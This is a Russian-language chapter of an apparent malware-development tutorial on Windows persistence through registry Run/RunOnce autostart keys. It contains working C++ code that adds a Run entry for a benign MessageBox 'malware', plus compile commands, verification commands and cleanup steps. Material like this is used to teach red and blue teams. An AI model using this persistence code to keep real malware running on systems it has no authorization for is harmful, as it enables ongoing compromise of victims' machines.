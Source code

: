 \newpage
\subsection{67. Разработка вредоносного ПО: закрепление (persistence) - часть 1. Ключи автозапуска реестра. Пример на C++.}

![pers](./images/51/2022-04-20_09-43.png){width="80%"}    

Этот раздел открывает главу о техниках и трюках персистентности вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования "классического" трюка персистентности: ключей автозапуска в реестре.    

### ключи автозапуска

Добавление записи в "ключи автозапуска" в реестре приведёт к выполнению указанного приложения при входе пользователя в систему. Эти приложения будут выполняться в контексте пользователя и иметь уровень разрешений, соответствующий его учётной записи.    

Следующие ключи автозапуска создаются в Windows по умолчанию:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-57.png){width="80%"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-58.png){width="80%"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-59.png){width="80%"}    

> Обратите внимание, что это может использоваться как один из способов анти-VM (VirtualBox).    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-59_1.png){width="80%"}    

Злоумышленники могут использовать эти конфигурационные пути для запуска вредоносного ПО и обеспечения его персистентности после перезагрузки системы. Они также могут маскировать записи в реестре, делая их похожими на легитимные программы.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-08.png){width="80%"}    

Сохраним его в папку `Z:\\2022-04-20-malware-pers-1\`:    

![pers](./images/51/2022-04-20_19-10.png){width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для автозапуска `hack.exe` при входе в Windows:    

```cpp
/*
pers.cpp
windows low level persistense 
via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новый ключ в реестр. Ключи реестра можно добавлять через терминал в ключи автозапуска для обеспечения персистентности, но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-20.png){width="80%"}    

Сначала проверим ключи реестра на машине жертвы:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-35.png){width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-39.png){width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы и войдём снова:    

![pers](./images/51/2022-04-20_09-40.png){width="80%"}    

![pers](./images/51/2022-04-20_09-40_1.png){width="80%"}    

![pers](./images/51/2022-04-20_09-44.png){width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path \
"HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" \
-Name "hack"
reg query \
"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-46.png){width="80%"}    

### Windows 11

Этот метод также работает на `Windows 11`:    

![pers](./images/51/2022-04-21_10-29.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_1.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_2.png){width="80%"}    

![pers](./images/51/2022-04-21_10-31.png){width="80%"}    

И очистка системы:    

![pers](./images/51/2022-04-21_10-32.png){width="80%"}    

### Заключение

Создание ключей реестра для выполнения вредоносного приложения во время входа в Windows - один из старейших трюков в арсенале красных команд. Различные злоумышленники и известные инструменты, такие как Metasploit, Powershell Empire, предоставляют эту возможность, поэтому опытные специалисты синих команд смогут выявить такую вредоносную активность.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    
